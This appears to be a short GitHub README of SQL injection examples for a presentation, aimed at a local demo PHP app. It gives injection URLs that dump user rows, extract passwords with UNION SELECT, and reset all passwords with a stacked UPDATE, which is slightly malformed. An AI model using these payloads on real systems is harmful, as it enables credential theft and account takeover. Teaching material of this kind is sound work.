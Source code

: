 sql-injection-examples
======================

Few examples of sql injection for an upcoming presentation on the topic.

### Normal access
http://localhost/sql-injection-example/basic.php?id=1

### If this works, the app may be vulnerable
http://localhost/sql-injection-example/basic.php?id=3 AND 1=1

### Can I print more users then?
http://localhost/sql-injection-example/basic.php?id=2 OR id=3

### Can I get them all?
http://localhost/sql-injection-example/basic.php?id=2 OR id is not null

### Uhm... so can I get their password? --> you need to know that the table is called user
http://localhost/sql-injection-example/basic.php?id=2 union select password from user;

### Or maybe I can choose what their password should be? d8578edf8458ce06fbc5bb76a58c5ca4 being the md5("qwerty")
http://localhost/sql-injection-example/basic.php?id=2; UPDATE user SET password 'd8578edf8458ce06fbc5bb76a58c5ca4';--

### Updating of password
http://localhost/sql-injection-example/chg_pwd.php?id=2 OR 1=1&pwd="d8578edf8458ce06fbc5bb76a58c5ca4"





